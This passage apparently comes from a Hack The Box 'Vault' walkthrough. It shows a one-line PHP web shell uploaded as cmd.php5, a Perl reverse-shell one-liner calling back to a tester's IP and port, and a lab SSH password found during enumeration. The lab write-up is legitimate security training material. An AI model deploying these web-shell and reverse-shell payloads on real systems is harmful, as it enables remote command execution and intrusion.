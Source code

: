 With that in mind, we can craft another file with the following PHP code and save it as `cmd.php5`. After uploading, the file will allow us to execute remote commands.

```
<?php echo shell_exec($_GET[0]); ?>
```

<a class="image-popup">
![fb19a5ac.png](/assets/images/posts/vault-htb-walkthrough/fb19a5ac.png)
</a>

Perfect.

## Low-Privilege Shell

We can now execute a reverse shell. I always go for a Perl reverse shell simply because it's more likely to be available than any other interpreted languages such as Python.

```
perl -e 'use Socket;$i="10.10.14.109";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'
```

It's best to urlencode the code to prevent complications because we are entering it on the browser's address bar.

<a class="image-popup">
![7af10ac4.png](/assets/images/posts/vault-htb-walkthrough/7af10ac4.png)
</a>

Awesome. We have shell. Let's go through the usual process to [upgrade](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) the shell to full TTY.

During enumeration of `www-data`'s account, I found the password (`Dav3therav3123`) to `dave`'s SSH account and other pertinent information at `/home/dave/Desktop`.


[1]: https://www.hackthebox.eu/home/machines/profile/161
[2]: https://www.hackthebox.eu/home/users/profile/5621
[3]: https://www.hackthebox.eu/